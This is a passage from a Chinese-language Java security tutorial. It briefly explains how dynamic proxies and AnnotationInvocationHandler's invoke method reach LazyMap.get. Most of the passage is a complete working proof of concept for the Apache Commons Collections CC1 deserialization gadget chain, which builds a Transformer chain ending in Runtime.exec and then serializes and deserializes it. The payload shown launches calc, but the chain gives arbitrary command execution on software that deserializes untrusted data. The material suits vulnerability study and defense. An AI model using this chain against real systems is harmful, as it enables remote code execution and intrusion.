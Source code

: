 这里调用 hello.morning ，就会触发 handler 的 invoke 方法，并传递三个参数进去，分别为 proxy （代理对象），method 即调用的方法的 Method 对象，args 即传递的参数。

我们即是通过动态代理从 readobject 方法为入口，将 memberValues 设为 AnnotationInvocationHandler 的代理类（ AnnotationInvocationHandler 实现了 InvocationHandler，所以可以被设置为代理类的handler ），那么就会调用  AnnotationInvocationHandler 的 invoke 方法，从而执行 get 方法，

所以最终POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class cc1 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class}, new Object[]{"calc"})});
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);

        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class, map); //创建第一个代理的handler

        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, map_handler); //创建proxy对象

        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) AnnotationInvocationHandler_Constructor.newInstance(Override.class, proxy_map);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```
